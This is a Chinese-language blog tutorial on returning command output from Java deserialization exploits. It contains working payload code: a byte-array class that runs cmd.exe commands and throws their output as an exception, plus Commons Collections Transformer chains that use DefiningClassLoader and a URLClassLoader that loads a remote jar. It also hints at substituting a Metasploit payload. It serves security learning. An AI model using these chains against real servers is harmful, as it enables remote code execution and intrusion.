










# Java反序列化链回显解决方案

# 题外话

   这是一篇本应该早就完成的文章，但是由于各种原因拖延至此。之前有读者就催我，但是实在是各种事情缠身，加上自己颓废了一段时间导致现在才公布。之后可能会断更一段时间关于代码审计方面文章，时间暂不确定。其实有几个题材早也确定，但是实在是没时间去整理素材，加上项目的更新，让我变得更加繁忙，在此给位先说一声对不起。

---

# 前言

   大多数Java反序列化漏洞都能执行命令，导致RCE。小伙伴们有没有想过网络上大多数`payload`都是以弹计算机为止，但目标主机有没有弹计算机，或者执行其他的命令的时候我们是并不知道的，因为没有回显任何的结果。这篇文章以反序列化漏洞的回显为题，教你解决如何解决反序列化漏洞回显。

PS: 为避免代码太长而导致的阅读效果，故将完整的实验代码全部已经上传至 <https://github.com/SummerSec/JavaLearnVulnerability>

---

# defineclass异常回显

   defineclass是`java.lang.ClassLoader`类下的一个类方法，将字节码转化为Class类。  
  


---

## ClassLoder 类加载机制

   Java是一个依赖于JVM(Java虚拟机)实现的跨平台的开发语言。Java程序在运行前需要先编译成class文件，Java类初始化的时候会调用`java.lang.ClassLoader`加载类字节码，ClassLoader会调用JVM的native方法(defineClass0/1/2)来定义一个java.lang.Class实例。

  
   类加载器有三个，根加载器`Bootstrap`、平台类加载器`PlatformClassLoader`以及用户类加载器`AppClassLoader`。用户也可以自定义类加载器，自定义的类加载器需要继承`ClassLoader`类。



---

## 类加载demo

   下面给出的是一个完整的用户自定义加载器加载类字节码的DEMO，Summer类字节码怎么获取下文会讲解，目前先看一下类加载器的实现。

> 温馨提示：如果使用笔者在GitHub上项目，请先将Summer类删除，或者移到其他地方。

```java
public class demo2 extends ClassLoader {
    // Summer类名
    private static String testClassName = "summer.classload.Summer";
    // Summer.class类字节码
    private static byte[] testClassBytes = new byte[]{
            -54, -2, -70, -66, 0, 0, 0, 52, 0, 96, 10, 0, 24, 0, 53, 7, 0, 54, 7, 0, 55, 8, 0, 56, 8, 0, 57, 10, 0, 2, 0, 58, 10, 0, 2, 0, 59, 10, 0, 60, 0, 61, 7, 0, 62, 8, 0, 63, 10, 0, 64, 0, 65, 10, 0, 9, 0, 66, 7, 0, 67, 10, 0, 13, 0, 68, 7, 0, 69, 10, 0, 15, 0, 53, 10, 0, 13, 0, 70, 10, 0, 15, 0, 71, 8, 0, 72, 7, 0, 73, 10, 0, 15, 0, 74, 10, 0, 20, 0, 75, 7, 0, 76, 7, 0, 77, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 21, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 86, 1, 0, 4, 67, 111, 100, 101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101, 1, 0, 18, 76, 111, 99, 97, 108, 86, 97, 114, 105, 97, 98, 108, 101, 84, 97, 98, 108, 101, 1, 0, 4, 116, 104, 105, 115, 1, 0, 25, 76, 115, 117, 109, 109, 101, 114, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 47, 83, 117, 109, 109, 101, 114, 59, 1, 0, 3, 99, 109, 100, 1, 0, 18, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 6, 115, 116, 114, 101, 97, 109, 1, 0, 21, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 59, 1, 0, 12, 115, 116, 114, 101, 97, 109, 82, 101, 97, 100, 101, 114, 1, 0, 27, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 82, 101, 97, 100, 101, 114, 59, 1, 0, 14, 98, 117, 102, 102, 101, 114, 101, 100, 82, 101, 97, 100, 101, 114, 1, 0, 24, 76, 106, 97, 118, 97, 47, 105, 111, 47, 66, 117, 102, 102, 101, 114, 101, 100, 82, 101, 97, 100, 101, 114, 59, 1, 0, 6, 98, 117, 102, 102, 101, 114, 1, 0, 24, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 66, 117, 102, 102, 101, 114, 59, 1, 0, 4, 108, 105, 110, 101, 1, 0, 13, 83, 116, 97, 99, 107, 77, 97, 112, 84, 97, 98, 108, 101, 7, 0, 76, 7, 0, 55, 7, 0, 78, 7, 0, 62, 7, 0, 67, 7, 0, 69, 1, 0, 10, 69, 120, 99, 101, 112, 116, 105, 111, 110, 115, 1, 0, 10, 83, 111, 117, 114, 99, 101, 70, 105, 108, 101, 1, 0, 11, 83, 117, 109, 109, 101, 114, 46, 106, 97, 118, 97, 12, 0, 25, 0, 79, 1, 0, 24, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 66, 117, 105, 108, 100, 101, 114, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 1, 0, 7, 99, 109, 100, 46, 101, 120, 101, 1, 0, 2, 47, 99, 12, 0, 25, 0, 80, 12, 0, 81, 0, 82, 7, 0, 83, 12, 0, 84, 0, 85, 1, 0, 25, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 82, 101, 97, 100, 101, 114, 1, 0, 3, 103, 98, 107, 7, 0, 86, 12, 0, 87, 0, 88, 12, 0, 25, 0, 89, 1, 0, 22, 106, 97, 118, 97, 47, 105, 111, 47, 66, 117, 102, 102, 101, 114, 101, 100, 82, 101, 97, 100, 101, 114, 12, 0, 25, 0, 90, 1, 0, 22, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 66, 117, 102, 102, 101, 114, 12, 0, 91, 0, 92, 12, 0, 93, 0, 94, 1, 0, 1, 10, 1, 0, 19, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 69, 120, 99, 101, 112, 116, 105, 111, 110, 12, 0, 95, 0, 92, 12, 0, 25, 0, 26, 1, 0, 23, 115, 117, 109, 109, 101, 114, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 47, 83, 117, 109, 109, 101, 114, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 1, 0, 19, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 1, 0, 3, 40, 41, 86, 1, 0, 22, 40, 91, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 86, 1, 0, 5, 115, 116, 97, 114, 116, 1, 0, 21, 40, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 59, 1, 0, 17, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 1, 0, 14, 103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 1, 0, 23, 40, 41, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 59, 1, 0, 24, 106, 97, 118, 97, 47, 110, 105, 111, 47, 99, 104, 97, 114, 115, 101, 116, 47, 67, 104, 97, 114, 115, 101, 116, 1, 0, 7, 102, 111, 114, 78, 97, 109, 101, 1, 0, 46, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 110, 105, 111, 47, 99, 104, 97, 114, 115, 101, 116, 47, 67, 104, 97, 114, 115, 101, 116, 59, 1, 0, 50, 40, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 59, 76, 106, 97, 118, 97, 47, 110, 105, 111, 47, 99, 104, 97, 114, 115, 101, 116, 47, 67, 104, 97, 114, 115, 101, 116, 59, 41, 86, 1, 0, 19, 40, 76, 106, 97, 118, 97, 47, 105, 111, 47, 82, 101, 97, 100, 101, 114, 59, 41, 86, 1, 0, 8, 114, 101, 97, 100, 76, 105, 110, 101, 1, 0, 20, 40, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 6, 97, 112, 112, 101, 110, 100, 1, 0, 44, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 66, 117, 102, 102, 101, 114, 59, 1, 0, 8, 116, 111, 83, 116, 114, 105, 110, 103, 0, 33, 0, 23, 0, 24, 0, 0, 0, 0, 0, 1, 0, 1, 0, 25, 0, 26, 0, 2, 0, 27, 0, 0, 1, 27, 0, 6, 0, 7, 0, 0, 0, 112, 42, -73, 0, 1, -69, 0, 2, 89, 6, -67, 0, 3, 89, 3, 18, 4, 83, 89, 4, 18, 5, 83, 89, 5, 43, 83, -73, 0, 6, -74, 0, 7, -74, 0, 8, 77, -69, 0, 9, 89, 44, 18, 10, -72, 0, 11, -73, 0, 12, 78, -69, 0, 13, 89, 45, -73, 0, 14, 58, 4, -69, 0, 15, 89, -73, 0, 16, 58, 5, 1, 58, 6, 25, 4, -74, 0, 17, 89, 58, 6, -58, 0, 19, 25, 5, 25, 6, -74, 0, 18, 18, 19, -74, 0, 18, 87, -89, -1, -24, -69, 0, 20, 89, 25, 5, -74, 0, 21, -73, 0, 22, -65, 0, 0, 0, 3, 0, 28, 0, 0, 0, 38, 0, 9, 0, 0, 0, 7, 0, 4, 0, 8, 0, 36, 0, 9, 0, 50, 0, 10, 0, 60, 0, 11, 0, 69, 0, 12, 0, 72, 0, 14, 0, 83, 0, 15, 0, 99, 0, 18, 0, 29, 0, 0, 0, 72, 0, 7, 0, 0, 0, 112, 0, 30, 0, 31, 0, 0, 0, 0, 0, 112, 0, 32, 0, 33, 0, 1, 0, 36, 0, 76, 0, 34, 0, 35, 0, 2, 0, 50, 0, 62, 0, 36, 0, 37, 0, 3, 0, 60, 0, 52, 0, 38, 0, 39, 0, 4, 0, 69, 0, 43, 0, 40, 0, 41, 0, 5, 0, 72, 0, 40, 0, 42, 0, 33, 0, 6, 0, 43, 0, 0, 0, 31, 0, 2, -1, 0, 72, 0, 7, 7, 0, 44, 7, 0, 45, 7, 0, 46, 7, 0, 47, 7, 0, 48, 7, 0, 49, 7, 0, 45, 0, 0, 26, 0, 50, 0, 0, 0, 4, 0, 1, 0, 20, 0, 1, 0, 51, 0, 0, 0, 2, 0, 52,
    };
    @Override
    public Class<?> findClass(String name) throws ClassNotFoundException {
        // 只处理Summer类
        if (name.equals(testClassName)) {
            // 调用JVM的defineClass方法定义Summer类
            return defineClass(testClassName, testClassBytes, 0, testClassBytes.length);
        }
        return super.findClass(name);
    }

    public static void main(String[] args) {
        // 创建自定义的类加载器
        demo2 loader = new demo2();
        try {
            // 使用自定义的类加载器加载TestHelloWorld类
            Class testClass = loader.loadClass(testClassName);
            // 反射创建Summer类，等价于 Summer t = new Summer(‘ipconfig);
            testClass.getConstructor(String.class).newInstance("ipconfig");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

Summer类代码，这里是将回显结果使用异常类抛出。

```java
public class Summer {
    public void Summer(String cmd) throws Exception {
        InputStream stream = (new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd})).start().getInputStream();
        InputStreamReader streamReader = new InputStreamReader(stream, Charset.forName("gbk"));
        BufferedReader bufferedReader = new BufferedReader(streamReader);
        StringBuffer buffer = new StringBuffer();
        String line = null;
        while((line = bufferedReader.readLine()) != null) {
            buffer.append(line).append("\n");
        }
        throw new Exception(buffer.toString());
    }
}
```



---

   工具类将`.class`字节码文件转化成字节数组，可以添加自定义改造成适合自己方法。

```java
public class FiletoBytes {

    public FiletoBytes(String file_name) {
    }
    /**
     * @Author:         summer
     * @CreateDate:     2020/5/26 14:39
     * @UpdateUser:     summer
     * @UpdateDate:     2020/5/26 14:39
     * @UpdateRemark:   修改内容
     * @Version:        v1.0.0
     * @Description:    只需要传入文件的绝对路径就可以进行转化
     *  需要根据文件大小修改bytes大小
     */
    public String FiletoBytes(String filename ){
        String buf = null;
        // 20m
        byte[] bytes = new byte[4096];
        File file = new File(filename);

        FileInputStream fis = null;

        try {
            fis = new FileInputStream(file);

            fis.read(bytes);
            buf = Arrays.toString(bytes);
            fis.close();
            return buf;
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }

        return buf;
    }
    /**
     * @Author:         summer
     * @CreateDate:     2020/5/26 15:20
     * @UpdateUser:     summer
     * @UpdateDate:     2020/5/26 15:20
     * @UpdateRemark:   修改内容
     * @Version:        v1.0.0
     * @Description:    bytes大小需要传入设置
     */
    public String FiletoBytes(String filename ,byte[] bytes){
        String buf = null;
        File file = new File(filename);

        FileInputStream fis = null;

        try {
            fis = new FileInputStream(file);

            fis.read(bytes);
            buf = Arrays.toString(bytes);
            fis.close();
            return buf;
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
        return buf;
    }

}
```

简单使用demo，将Summer.class文件转化。

```java
public class demo1 {
    // Summer.class的绝对路径
    // E:\Soures\JavaLearnVulnerability\Summer.class自行修改
    static final String file_name = "E:" + File.separator + "Soures" + File.separator + "JavaLearnVulnerability" + File.separator + "Summer.class";
    //
    static final byte[] bytes = new byte[1600];
    public static void main(String[] args) {
        FiletoBytes filetoBytes = new FiletoBytes(file_name);
//        System.out.println("直接传入文件，默认bytes大小默认为4kb");
//        System.out.println(filetoBytes.FiletoBytes(file_name));
        System.out.println("传入文件和bytes");
        System.out.println(filetoBytes.FiletoBytes(file_name,bytes));

    }
}
```

> 温馨提示：在转文件的时候最好先看看文件大小，传入合适的数组大小。因为后面这些多余出0要删除，否则会报错。  
> 

---

## defineclass’s demo

```java
public class defineclass extends ClassLoader{
    private static String classname = "summer.classload.Summer";
    // 部分字节码，完整获取github。
    private static byte[] classBytes = new byte[]{
            -54, -2, -70, -66, 0, 0, 0, 52, 0, 96, 10, 0, 24, 0, 53, 7, 0, 54, 7, 0, 55, 8, 0, 56, 8, 0, 57, 10, 0, 2, 0, 58, 10, 0, 2, 0, 59, 10, 0, 60, 0, 61, 7, 0, 62, 8, 0, 63, 10, 0, 64, 0, 65, 10, 0, 9, 0, 66, 7, 0, 67,};

//使用反射的方法
    public static void main(String[] args) throws Exception {
        defineclass defineclass = new defineclass();
        Class cls = defineclass.defineClass(classname,classBytes,0,classBytes.length);
        cls.getConstructor(String.class).newInstance("whoami");

    }
}
```



---

## ccdefineclass

   改写cc链，来达到获取回显。这里有一个坑，JDK自带`java.lang.ClassLoader`类下的defineclass是权限是`protected`不能直接通过反射调用，故不顾虑使用这个类，笔者使用的是weblogic中的`wlfullclient.jar!.org.mozilla.classfile.DefiningClassLoader`。  
笔者这里只给出部分实现代码。

```java
 Transformer[] transformers = new Transformer[] {
//                new ConstantTransformer(ClassLoader.class),
                new ConstantTransformer(DefiningClassLoader.class),
                new InvokerTransformer("getConstructor",
                        new Class[]{Class[].class},
                        new Object[]{new Class[0]}),
                new InvokerTransformer("newInstance",
                        new Class[]{Object[].class},
                        new Object[]{new Object[0]}),
                new InvokerTransformer("defineClass",
                        new Class[]{String.class,byte[].class},
                        new Object[]{"summer.classload.Summer",bytes}),
                new InvokerTransformer("newInstance",
                        new Class[]{},
                        new Object[]{}),
                new InvokerTransformer("Exec",
                        new Class[]{String.class},
                        new Object[]{"ipconfig"}),
        };
```

---

# URLClassLoader远程加载文件回显

   URLClassLoader是`java.net`下的类，继承了`java.lang.Classloader`类对象。URLClassLoader可以从远端或者本地加载jar/class文件。



---

## URLClassLoader’s Demo

1. 编写exp代码，代码已经上传至GitHub项目中。
2. 编译`javac Summer.java`
3. 创建http服务 `py -2 -m SimpleHTTPServer 8090`

```java
public class demo {
    public static void main(String[] args) throws Exception {

        URL url = new URL("http://127.0.0.1:8090/summer.jar");
//        URL url = new URL("file:e:/summer.jar");

        URLClassLoader ucl = new URLClassLoader(new URL[]{url});
        Class cls = ucl.loadClass("Summer");
        Method m = cls.getMethod("Exec",String.class);
        m.invoke(cls.newInstance(),"ipconfig");

    }
}
```

  


---

## CCURLClassLoader

   同样使用cc链来改造此回显方法，`试想一下把这个jar换成msf的payload可以达到什么效果呢？`这里我不实现，自己可以去脑洞实现一下，很简单的，我相信看过我文章的人都应该会。

```java
Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(URLClassLoader.class),
                new InvokerTransformer("getConstructor",
                        new Class[]{Class[].class},
                        new Object[]{new Class[]{URL[].class}}),
                new InvokerTransformer("newInstance",
                        new Class[]{Object[].class},
                        new Object[]{new Object[]{new URL[]{new URL("http://127.0.0.1:8090/summer.jar")}}}),
                new InvokerTransformer("loadClass",
                        new Class[]{String.class},
                        new Object[]{"summer"}),
                new InvokerTransformer("getConstructor",
                        new Class[]{Class[].class},
                        new Object[]{new Class[]{String.class}}),
                new InvokerTransformer("newInstance",
                        new Class[]{Object[].class},
                        new Object[]{new String[]{"ipconfig"}})

        };
```

---

# 总结

   笔者这里总结都是以CC链为改造基础，其实CC还有很多玩法，大家可以脑洞一下，Java反序列化回显也不止本文中两种，比例说RMI、weblogic的T3协议。学习无止境，努力就完事。

`于无常处知有情，于有情处知众生..........`

---

# 参考

<https://javasec.org/javase/ClassLoader/>  
<https://xz.aliyun.com/t/7740>
